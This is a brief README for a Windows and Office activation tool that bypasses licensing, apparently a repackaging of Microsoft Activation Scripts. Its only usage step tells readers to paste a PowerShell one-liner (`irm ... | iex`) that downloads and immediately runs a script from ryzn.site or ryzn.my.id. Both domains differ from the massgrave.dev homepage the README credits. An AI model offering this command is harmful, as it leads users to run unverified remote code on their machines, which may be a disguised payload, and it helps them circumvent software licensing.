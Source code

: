 ## windows-activators
## Microsoft Activation Scripts (MAS):

A Windows and Office activator using HWID / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.

## Download / How to use it?

### Method 1 - PowerShell

-   On Windows 10/11, right-click on the windows start menu and select PowerShell or Terminal.
-   Copy-paste the below code and press enter\
    `irm ryzn.site/kms | iex`
    or
    `irm https://ryzn.my.id/kms | iex`
-   You will see the activation options, and follow onscreen instructions.
-   That's all.

```
Latest Version: 1.7
Release date: 25-November-2022
```

### For more details, check Homepage:  https://massgrave.dev/

Credit to Massgrave

---

Made with Love ❤️
